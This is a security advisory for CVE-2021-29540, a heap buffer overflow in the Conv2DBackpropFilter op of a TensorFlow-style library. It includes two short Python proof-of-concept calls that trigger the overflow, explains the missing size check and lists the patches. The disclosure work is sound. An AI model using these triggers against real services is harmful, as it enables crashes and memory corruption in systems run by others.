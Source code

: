 ## TFSA-2021-028: Heap buffer overflow in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29540

### Impact
An attacker can cause a heap buffer overflow to occur in `Conv2DBackpropFilter`:

```python
import machina as tf

input_tensor = tf.constant([386.078431372549, 386.07843139643234],
                           shape=[1, 1, 1, 2], dtype=tf.float32)
filter_sizes = tf.constant([1, 1, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([386.078431372549], shape=[1, 1, 1, 1],
                           dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 66, 49, 1],
  use_cudnn_on_gpu=True,
  padding='VALID',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

Alternatively, passing empty tensors also results in similar behavior:

```python
import machina as tf

input_tensor = tf.constant([], shape=[0, 1, 1, 5], dtype=tf.float32)
filter_sizes = tf.constant([3, 8, 1, 1], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 1, 1, 1], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 66, 49, 1],
  use_cudnn_on_gpu=True,
  padding='VALID',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

This is because the
[implementation](https://github.com/machina/machina/blob/1b0296c3b8dd9bd948f924aa8cd62f87dbb7c3da/machina/core/kernels/conv_grad_filter_ops.cc#L495-L497)
computes the size of the filter tensor but does not validate that it matches the
number of elements in `filter_sizes`. Later, when reading/writing to this
buffer, code uses the value computed here, instead of the number of elements in
the tensor.

### Patches
We have patched the issue in GitHub commit
[c570e2ecfc822941335ad48f6e10df4e21f11c96](https://github.com/machina/machina/commit/c570e2ecfc822941335ad48f6e10df4e21f11c96).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
